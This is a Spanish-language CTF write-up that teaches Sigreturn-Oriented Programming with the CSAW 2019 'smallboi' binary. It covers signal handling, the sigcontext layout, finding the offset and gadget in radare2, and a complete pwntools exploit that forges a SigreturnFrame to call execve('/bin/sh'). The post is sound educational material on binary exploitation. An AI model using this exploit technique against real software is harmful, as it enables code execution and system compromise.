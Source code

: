 ```yaml
---
layout: post
title: Programación Orientada a Sigreturn (SROP) 
author: c4rta
date: 2023-01-09
categories: [Explotacion binaria]
tags: [ROP, SROP]
description: >
 Resolucion de un ejercicio aplicando la tecnica SROP, para ejecutar un sigcontext falso y conseguir una shell
image: 
  path: /assets/img/srop/waifu.jpg
---
```

{:.lead}

## Señales

Las señales son un mecanismo para enviar notificaciones asincrónicas directamente a un proceso o subproceso. Este se utilizan para matar procesos, para decirles que los temporizadores han expirado o para notificar sobre un comportamiento anormal.

### Funcion de las señales

![](/assets/img/srop/se%C3%B1al.webp)

1. Cuando se tiene un proceso previamente creado, lo que se hace primero es que el kernel envia una señal a ese proceso, el proceso se suspende temporalmente y entrara en el kernel

2. Despues, el kernel guarda el contexto de ese proceso y salta al controlador de la señal (este ya debe de estar previamente definido)

3. Cuando se vuelve e pasar el kernel, el controlador de la señal regresa, y el kernel restaura el contexto del proceso

4. Ejecucion del proceso

Del paso 2 al 3 es la clave. SROP abusa de ```sigreturn()``` por que normalmente restaura el contexto del proceso despues de que regresa el controlador de señal, esto funciona mas o menos asi:

El kernel guarda el contexto del proceso en el stack del proceso, luego se usa la direccion de ```rt_sigreturn``` en el top del stack, esta direccion apunta a un fragmento de codigo en el que ```sigreturn()``` llamara a sistema. Despues del paso 3, el RSP o ESP apunta a ```rt_sigreturn``` y ejecuta el ```sigcontext```

### SROP

SROP es una variante de ROP, pero en esta solo se deben de cumplir dos condiciones

1. Un gadget ```syscall; ret```
2. Una manera de poner ```0xf``` en ```RAX``` o ```EAX```

Dos de las formas mas usadas para poner ```0xf``` en ```RAX``` son:

1. Usar ```mov eax, 0xf```
2. Usar ```pop eax; ret```

Ambas son faciles de implementar, ya que meten ```0xf``` en una sola acccion.
Y el ```0xf``` simplemente es el ```syscall ID de rt_sigreturn```.

## Como funciona

Aun que es similar a ROP, no funcionan de la misma forma, SROP funciona poniendo en el call stack un ```sigcontext``` pero falso. y luego sobrescribir el ```RIP``` o ```EIP``` con la direccion de un gadget que permita llamar a ```sigreturn()```, y se apunta a ```sigreturn()``` ya que este permite ejecutar el ```sigcontext```, realmente esto es muy poderoso, ya que con SROP podemos controlar al mismo tiempo todos los valores de los registros. Y cuando digo ```sigcontext```, me refiero a esto:

```c
struct sigcontext_64 {
	__u64				r8;
	__u64				r9;
	__u64				r10;
	__u64				r11;
	__u64				r12;
	__u64				r13;
	__u64				r14;
	__u64				r15;
	__u64				di;
	__u64				si;
	__u64				bp;
	__u64				bx;
	__u64				dx;
	__u64				ax;
	__u64				cx;
	__u64				sp;
	__u64				ip;
	__u64				flags;
	__u16				cs;
	__u16				gs;
	__u16				fs;
	__u16				ss;
	__u64				err;
	__u64				trapno;
	__u64				oldmask;
	__u64				cr2;
	__u64				fpstate;
	__u64				reserved1[8];
};
```
Cuando el atacante crea un ```sigcontext``` falso, puede establecer cualquier valor de cada uno de esos registros

## Explotacion

Para el ejemplo usare un clasico, ```smallboi``` de CSAW 2019

Al ejecutarlo simplemente se queda esperando un input y se cierra, y al tratar de desbordar el buffer vemos que si se puede:

```[1]    423456 segmentation fault (core dumped)  ./small_boi```

Pero tiene NX asi que no podemos ejecutar una shellcode

### Analizandolo

Al materlo al radare, vemos y hacer un ```pdf``` vemos algo como esto:

![](/assets/img/srop/radare1.png)

Esto simplemente es el entry point, y lo unico interesante es que en la direccion ```0x004001b6``` hace un llamado a ```fcn.0040018c```, asi que vamos pa' alla

![](/assets/img/srop/radare2.png)

Este es su codigo, basicamente el binario hacer una syscall de ```read()```, la cual es la funcion que recibe nuestro input, la cual lee ```0x200``` bytes que vienen de ```var_20h```


### Sacando el offset el RIP

Esta es la parte mas sencilla, asi que realmente no requiere mucha explicacion, lo que hice fue:

1. Usando pwndbg genere con ```cyclic 100``` una secuencia de 100 caracteres que le pase como input al programa
2. Usando ```cyclic -l```  y 8 bytes de el RSP obtuve su offset

Y bueno, el offset para llegar al RIP es 40

### Sacando el gadget

El binario apenas si tiene instrucciones y por consiguiente apenas y tendra los gadgets que son usados comunmente jaja, asi que ahora queda mostrar los gadgets usando ```/R``` en radare, a ver que onda.

Despues de ver los gadgets nos encontramos con el que usaremos:

![](/assets/img/srop/radare3.png)

Aqui esta todo lo que ocupamos, este unico gadget hace las dos condiciones que mencion al principio, ya que establece a ```EAX``` el nuemero de la syscall equivalente a ```sigreturn()``` y la invoca. Tambien como mencione antes, en SROP se crear un ```sigcontext``` falso, asi que en esta caso haremos uno falso llamando a ```execve()``` con el arguemento ```/bin/sh``` 

Para sacar ```/bin/sh``` simplemente podemos ```/ /bin/sh``` y vemos que nos arroja algo como esto:

![](/assets/img/srop/radare4.png)

Donde la direccion de ```/bin/sh``` es la que esta seleccionada

## Exploit

Al conseguir todo, nuestro exploit queda asi:

```py
from pwn import *

context.arch = 'amd64'

p = process("./small_boi")

bin_sh = 0x4001ca
sigreturn = 0x400180
syscall = 0x400185

payload = b'A'*40
payload += p64(sigreturn)

frame = SigreturnFrame(kernel='amd64')
frame.rax = 59
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload += bytes(frame)
p.send(payload)
p.interactive()
```
Y los valores salieron de aca:

![](/assets/img/srop/radare5.png)

Con ```SigreturnFrame``` Podemos crear un ```sigcontext``` falso, donde se establece ```rax``` a 59 (para execve), ```rdi``` a la dirección del ```/bin/sh```, ```rsi``` y ```rdx``` ambos a 0, y ```rip``` hacia la ```syscall```, esto con el fin de que la ```rt_sigreturn``` syscall cambie de contexto usando estos valores del falso ```sigcontext```, llamando así a ```execve``` con ```/bin/sh```. :point_up: 🤓 

Y el ejecutarlo nos da la shell:

![](/assets/img/srop/exploit.png)

Eso ha sido todo, gracias por leer ❤




